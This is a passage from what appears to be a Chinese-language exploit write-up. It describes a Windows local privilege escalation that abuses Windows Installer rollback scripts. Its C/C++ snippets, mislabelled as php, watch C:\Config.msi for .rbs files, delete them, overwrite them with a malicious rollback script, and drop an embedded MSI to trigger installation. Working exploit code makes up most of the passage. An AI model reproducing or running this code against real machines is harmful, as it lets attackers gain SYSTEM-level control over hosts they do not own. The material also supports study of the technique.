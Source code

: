 ```php
                    else {
                        wprintf(L"Failed to delete file: %ls\n", filePath.c_str());
                    }
                }
            }
        } while (FindNextFileW(hFind, &findFileData) != 0);
        FindClose(hFind);
    }
    else {
        wprintf(L"Error opening directory: %ls\n", path.c_str());
    }
}
```

这里我们把cmd.rbs单独写入一个文件，作为资源文件加载：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715933167395-4e7ce5ee-c040-4dc5-babe-3ffcfce5a1da.png)

使用 Windows API 函数 ReadDirectoryChangesW 来监视 C:\\\\Config.msi 目录的变化，特别是关注文件名变化。当检测到文件名变化时，通过 FILE\_NOTIFY\_INFORMATION 结构体获得文件名，并检查文件扩展名是否为 .rbs：

```php
do {
    ReadDirectoryChangesW(hFile, buff, sizeof(buff) - sizeof(WCHAR), TRUE, FILE_NOTIFY_CHANGE_FILE_NAME,
        &retbt, NULL, NULL);
    fn = (FILE_NOTIFY_INFORMATION*)buff;
    size_t sz = fn->FileNameLength / sizeof(WCHAR);
    fn->FileName[sz] = '\0';
    extension = fn->FileName;
    PathCchFindExtension(extension, MAX_PATH, &extension2);
} while (wcscmp(extension2, L".rbs") != 0);
```

一旦识别出 .rbs 文件，代码将执行以下操作：

1. 修改文件安全属性：使用 SetSecurityInfo 函数修改文件的安全属性，改变文件的访问权限。
2. 移动文件：使用自定义的 Move 函数移动文件，其实就是删除文件。
3. 创建并写入 rbs 文件：如果之前的操作成功，代码将创建一个新的 rbs 文件并写入数据。使用 CreateFile 打开文件，然后使用 WriteFile 将之前加载的资源（RbsBuff）写入文件：

```php
HANDLE rbs = CreateFile(rbsfile, GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if (WriteFile(rbs, RbsBuff, RbsSize, NULL, NULL)) {
    printf("[+] Rollback script overwritten!\n");
}
else {
    printf("[!] Failed to overwrite rbs file!\n");
}
```

触发安装操作：

```php
DWORD WINAPI install(void*) {
    HMODULE hm = GetModuleHandle(NULL);
    HRSRC res = FindResource(hm, MAKEINTRESOURCE(IDR_MSI1), L"msi");
    wchar_t msipackage[MAX_PATH] = { 0x0 };
    GetTempFileName(L"C:\\windows\\temp\\", L"MSI", 0, msipackage);
    printf("[*] MSI file: %ls\n", msipackage);
    DWORD MsiSize = SizeofResource(hm, res);
    void* MsiBuff = LoadResource(hm, res);
    HANDLE pkg = CreateFile(msipackage, GENERIC_WRITE | WRITE_DAC, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(pkg, MsiBuff, MsiSize, NULL, NULL);
    CloseHandle(pkg);
```